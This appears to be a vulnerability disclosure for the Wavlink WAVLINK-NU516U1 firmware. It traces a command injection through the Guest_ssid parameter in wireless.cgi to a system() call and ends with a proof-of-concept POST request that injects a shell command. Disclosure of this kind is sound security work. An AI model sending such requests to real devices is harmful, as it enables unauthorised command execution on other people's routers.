



**Wavlink** is a company focused on network devices and communication solutions, providing high-quality routers, extenders, and network accessories. The firmware for its **WAVLINK-NU516U1** model is designed to provide printer server functionality. The management backend contains a **command injection vulnerability**, which allows attackers to execute OS commands.

Firmware download link:
 https://docs.wavlink.xyz/Firmware/fm-516u1/


Using **binwalk -Me [firmware location]** to unpack the firmware, I found the **wireless.cgi** program, which was then opened using **IDA**.

(The reverse engineering process involves a lengthy pseudo-code, but here only the key sections displayed in IDA are shown.)

In the **main** function (shown as **ftext** in IDA), it first retrieves the **page** parameter value submitted by the user.



If the **page** parameter is set to **GuestWifi**, it jumps to the **sub_4032E4** function.


Within **sub_4032E4**, the **Guest_ssid** parameter value is retrieved, which can be controlled via a POST request.



This **Guest_ssid** value is then passed into the **sub_407504** function.


Within this function, the value is concatenated into the **v8** variable and passed to the **system** function for execution, leading to a **command injection** vulnerability.



In the decompiled code, the **system** function argument appears empty, but from the assembly code, it can still be determined that its argument is **v8**.


poc：

```
POST /cgi-bin/wireless.cgi HTTP/1.1
Host: 10.10.10.2
Content-Length: 269
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://10.10.10.2
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://10.10.10.2/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
page=GuestWifi&guestEn=1&Guest_ssid=$(ps>/1.txt)
```

